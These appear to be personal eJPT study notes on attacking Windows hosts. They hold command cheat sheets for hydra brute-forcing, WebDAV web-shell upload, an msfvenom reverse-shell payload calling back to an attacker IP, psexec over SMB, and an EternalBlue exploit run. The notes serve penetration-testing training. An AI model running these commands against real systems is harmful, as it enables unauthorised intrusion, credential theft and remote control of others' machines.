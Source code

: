 # 08hakr's Short Notes eJPT
# 006 INE-Host-and-Network-Penetration-Testing-System-Host Based-Attacks

## Host Based Attacks
## Windows Vulnerabilities
- Conflicker MS08-067, EternalBlue Ms17-010, 
- information Disclosure
- buffer OVerflow
- RCE
- Privilege Escalation
- DOS System host Resources CPU RAM Network

## Frequently Exploited Windows Services 
### Microsoft IIS 80 443
 - .asp, .aspx, .config, .php
- WebDav 80 443
 - dattest and cadaver
 - snmap -sV -p80 --script=http-enum <target-ip>
 - hydra -L /usr/share/wordlists/metasploit/common_users.txt -P common_password <target-ip> http-get /webdav/
 - davtest -auth bob:password_123321 -url http://<target-ip>/webdav/ 
 - cadaver http://<target-ip>/webdav
 - cd /usr/share/webshells/
 - getting Reverse shell with meteasplot
  - creating payload 
  - msfvenom -p windows/meterpreter/reverse_tcp LHOST=<attacker-ip> LPORT=<attacker-port> -f asp > shell.asp
  - upload file with cadaver
  - msfconsol
  - use multi/handler
  - set payload windows/meterpereter/reverse_tcp 
  - set same data LHOST LPOSRT
  - run
  - search IIS upload  ; //use this module to automate
 
### SMB CS 445
- PSEXEC
- search smb_login
- set user_file and password_file
- pse commaond   pasexec (metaspolite module)
- psexec.py Administrator@<target-ip> cmd.exe

### MS17-010 Eternal Blue SMB 445
- vulnerable Windows windows Vistsa, 7, server 2008, 8.1, server 2012, 10, server 2016
- exploit AutoBlue-MS17-10
- nmap -sV -p445 --script=smb-vuln-ms17-010 <target-ip>
- shell_prep.sh
- python eternalblue_Exploit.py <target-ip> shellcode/sc_x64.bin
### RDP 3389
- nmap -sV <target-ip>
- msfconsole
- search rdp_scanner
- hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P unix_passwords.txt rdp://<target-ip> -s 3333 -t <speed-till-16>
- xfreerdp /u:administrator /p:<password> /v:<target-ip>:3333